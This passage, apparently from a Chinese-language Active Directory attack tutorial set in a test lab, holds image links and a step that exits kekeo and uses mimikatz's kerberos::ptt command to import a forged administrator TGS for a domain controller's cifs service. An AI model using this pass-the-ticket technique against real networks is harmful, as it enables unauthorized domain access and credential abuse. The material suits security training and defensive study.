 [![](assets/1705982146-abf448b77d1e675944de6f0ff75f7af4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223127-98260f62-b7a0-1.png)  
Step 4:从 kekeo 中使用 exit 命令退出，然后使用 mimikatz 将生成的 TGS 文件导入到 Kerberos 凭据列表中

```bash
kerberos::ptt TGS_administrator@hacke.testlab@HACKE.TESTLAB_cifs~dc.hacke.testlab@HACKE.TESTLAB.kirbi
```
